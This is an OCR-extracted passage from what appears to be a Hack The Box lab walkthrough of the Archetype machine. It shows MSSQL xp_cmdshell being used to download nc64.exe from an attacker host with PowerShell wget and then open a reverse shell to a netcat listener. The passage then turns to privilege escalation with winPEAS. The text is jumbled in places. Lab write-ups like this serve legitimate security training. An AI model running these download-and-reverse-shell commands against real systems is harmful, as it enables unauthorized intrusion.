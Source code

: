 ```powershell
The  -c  flag instructs the powershell to execute the command.
```

We will print the current working directory by issuing the following:
We found the folder where we will place the binary. To do that, we will use the wget  alias within PowerShell
( wget  is actually just an alias for Invoke-WebRequest ):
SQL> xp_cmdshell "whoami"

`sudo python3 -m http.server 80`
`sudo nc -lvnp 443`

xp_cmdshell "powershell -c pwd"


--- Page 11 ---



As a user archetype\sql_svc , we don't have enough privileges to upload files in a system directory and
only user Administrator  can perform actions with higher privileges. We need to change the current
working directory somewhere in the home directory of our user where it will be possible to write. After a
quick enumeration we found that Downloads is working perfectly for us to place our binary. In order to do
that, we are going to use the wget  tool within PowerShell:

We can verify on our simple Python HTTP server that the target machine indeed performed the request:

Now, we can bind the cmd.exe  through the nc  to our listener:
SQL> xp_cmdshell "powershell -c cd `C:\Users\sql_svc\Downloads`; wget

[http://10.10.14.9/nc64.exe](http://10.10.14.9/nc64.exe) -outfile nc64.exe"



--- Page 12 ---


Finally looking back at our netcat listener we can confirm our reverse shell and our foothold to the system:


The user flag can be found in the user's Desktop:

SQL> xp_cmdshell "powershell -c cd `C:\Users\sql_svc\Downloads`; .\nc64.exe -e cmd.exe

`10.10.14.9` 443"



--- Page 13 ---



# Privilege Escalation



For privilege escalation, we are going to use a tool called winPEAS , which can automate a big part of the
enumeration process in the target system. You can find more information for enumerating Windows system
for Privilege Escalation paths in the HTB academy module Windows Privilege Escalation.
